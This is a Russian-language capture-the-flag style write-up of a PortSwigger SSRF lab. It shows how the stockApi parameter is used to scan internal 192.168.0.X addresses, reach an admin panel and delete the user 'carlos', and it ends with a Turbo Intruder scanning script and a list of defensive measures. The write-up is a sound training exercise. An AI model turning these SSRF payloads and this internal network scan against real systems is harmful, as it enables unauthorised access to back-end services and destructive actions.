







Часто  внутренние серверные системы содержат конфиденциальные функции, к которым может получить доступ без аутентификации любой, кто может взаимодействовать с системами.
https://portswigger.net/web-security/ssrf/lab-basic-ssrf-against-backend-system

---

есть функционал на сайте где можно получить число товаров на складе
открытый внутр url передется как параметр

------
необходимо попасть в админ панель и удалить карлоса

------



подставил пейлоад классич админ




теперь начинаю подбирать пейлоады от 0 до 255
небольшой скрипт для турбо интрудера будет в конце файла
на 149 в последнем октете - ответ 200! бинго!




вижу админ панель! с нужным функционалом, необходимо удалить карлоса




воспользоватсья админкой из внешней сети - естественно нельзя
перехватил запрос на удаление карлоса нашего

вижу путь и команду для нужного действия
GET /admin/delete?username=carlos HTTP/2




кодирую параметр также как и оригинал запрос (частичное кодир URL) 





запрос сработал! карлос удален!




----------

- **Уязвимость возникает**, когда сервер слепо доверяет пользовательскому вводу в качестве URL для запросов
    
- **Типичный паттерн**: `stockApi=http://{пользовательский_хост}:{порт}/{путь}`
    
- **Сканирование сети возможно** через параметризацию последнего октета IP-адреса (`192.168.0.§X§`)

--------

Все адреса в диапазоне `127.0.0.0/8` (от `127.0.0.1` до `127.255.255.254`) указывают на локальную машину, но `127.0.0.1` используется по умолчанию.

## **Меры защиты**

### Для разработчиков:

- **Белые списки разрешенных хостов** вместо слепого доверия
    
- **Валидация входных URL** (блокировка внутренних IP, localhost)
    
- **Использование внутренних DNS имен** вместо прямых IP
    
- **Аутентификация для всех внутренних сервисов**
    

### Для администраторов:

- **Сегментация сети** (отдельные VLAN для внутренних сервисов)
    
- **Требование аутентификации** даже для внутренних интерфейсов
    
- **Мониторинг необычных запросов** к внутренним сервисам
    
- **Регулярное сканирование** на уязвимости SSRF


скриптик


```python
import random

import time

try:

    from urllib.parse import quote

except ImportError:

    from urllib import quote

  

def queueRequests(target, wordlists):

    engine = RequestEngine(endpoint=target.endpoint,

                          concurrentConnections=5,

                          requestsPerConnection=100,

                          pipeline=False)

    requests = []

    # Генерация диапазона IP-адресов (настраиваемо)

    start_ip = 0    # Начало диапазона

    end_ip = 255    # Конец диапазона

    for i in range(start_ip, end_ip + 1):

        # Формируем только последний октет IP

        ip_octet = str(i)

        # Вставляем в позицию %s в запросе

        final_request = target.req.replace('%s', ip_octet)

        requests.append(final_request)

    min_delay = 100

    max_delay = 500

    for request in requests:

        engine.queue(request)

        if random.random() > 0.1:

            delay = random.randint(min_delay, max_delay)

            time.sleep(delay / 1000.0)

  

def handleResponse(req, interesting):

    if interesting:

        req.label = "INTER"

        table.add(req)

    elif req.status == 500:

        response_text = req.response.lower()

        sql_indicators = ['sql', 'syntax', 'mysql', 'database', 'error', 'exception', 'warning']

        if any(indicator in response_text for indicator in sql_indicators):

            req.label = "POTENTIAL SQLi"

            table.add(req)
```